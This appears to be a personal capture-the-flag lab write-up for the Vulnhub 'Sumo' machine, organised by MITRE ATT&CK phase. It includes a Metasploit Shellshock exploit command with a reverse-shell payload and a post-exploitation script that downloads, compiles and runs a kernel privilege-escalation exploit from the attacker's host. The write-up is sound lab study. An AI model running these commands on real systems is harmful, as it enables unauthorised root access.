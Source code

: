 # Vulnhub Writeup #5: Sumo
## MITRE Att&ck Overview
---
![](2021-10-28-01-58-47.png)
MITRE ATT&CK matrix made with [Mitre-Attack-Navigator](https://mitre-attack.github.io/attack-navigator)

## Reconnaissance
--------------------------
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Techniques and procedures
- Opened up ZAP and crawled host's port 80 HTTP server; found nothing of note. 
- Nikto 
  - found this server was vuln to shellshock
  - was able to identify a directory /cgi-bin/test, as well as a file test.sh
    - I wasn'table to figure out a way to identify these files without Nikto, or what method Nikto used to find them, but it may be related to mod_negotiate being in use on the Apache server
- Gobuster ( #Crawling )
  - Didn't get 200s for pages other than index.html with Seclists Discovery Wordlists
  - After having success with Nikto, wrote a script at  [Reconnaissance](Reconnaissance) which was able to identify this folder, as well as a default "it works! file". 
  
  Nothing else was identified. It's clear this is supposed to be considered enough to find the vector.
    1) Nikto
    2) Knowing that CGI is extremely vulnerable
No other write-ups I've found have illustrated using pure deduction to figure this vector out.

## Initial Access, Execution & Command and Control
--------
Scanned for shellshock vulnerabilities in MSF (Searchsploit could've been used here as well):
```
search shellshock
```

The ```apache_mod_cgi_bash_env_exec``` exploit was returned as an applicable msf module.

###### Metasploit Resource Script for exploitation
```
msfconsole -x "use exploit/multi/http/apache_mod_cgi_bash_env_exec;\
set PAYLOAD payload/linux/x86/shell_reverse_tcp;\
set TARGETURI /cgi-bin/test/test.cgi;\
set RHOST 172.16.2.44;\
set LPORT 4444;\
set CVE CVE-2014-6278;\
exploit -z" 
```
#MetasploitScripts


## Discovery > Collection > Exfiltration
--------
- Checked running processes with ps -aux. Didn't find anything noteworthy. 
- Home directory was also quite bare. 
- Checked listening connections which didn't find anything noteworthy. 
- Checked distro/kernel version and compared it against searchsploit, which turned up an exploit
- Finally just wrote a script that would execute post_enum for me at [Discovery](Discovery.md)

## Privilege Escalation
--------
Simply looking up the kernel version in SearchSploit uncovered kernel exploit based LPE
```text 
searchsploit ubuntu |grep 3.2.0-23 |grep -vi \< 3.2.0-23 
```
In the MSF shell, the following code will trigger the exploit


### sumo_post.sh - privilege escalation script

```
sessions -i 1 -s /home/kali/targetz/sumo/sumo_post.sh"
```
```bash
#!/bin/bash
#sumo_post.sh 
# move to tmp for dirty work
cd /tmp
R="172.16.2.45"
wget $R/pwn.c #priv esc exploit
chmod +x pwn.c
# fix path, gcc can't see ld binary from tmp 
export PATH=$PATH:/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin
/usr/bin/gcc pwn.c -O2 -o vnik
./vnik 0  # results in root shell
python -c 'import pty; pty.spawn("/bin/sh")'
```



## Appendix: 
---
### Key lessons learned:
- Looking only for 200s in gobuster caused me to miss CGI-Bin dir. 
- Not enabling recursion in your automations can make enumeration a pain
- Large desire to read approaches that didn't use Nikto to discover the mod-cgi vulnerability
-Modify shell path early on to avoid "missing" binaries with ```export PATH=$PATH:/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin```
---
### Technical Issues Encountered:
GCC compliation error:
 
``` 
collect2: cannot find 'ld' when compiling in /tmp/
```

Found solution at  [stackoverflow](https://stackoverflow.com/questions/35970824/gcc-collect2-fatal-error-cannot-find-ld):

Two Options:
1) modify path
eg. export PATH=$PATH:/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin 

 2) copy ld binary to tmp


Obsidian Tags

#vulnhub #linux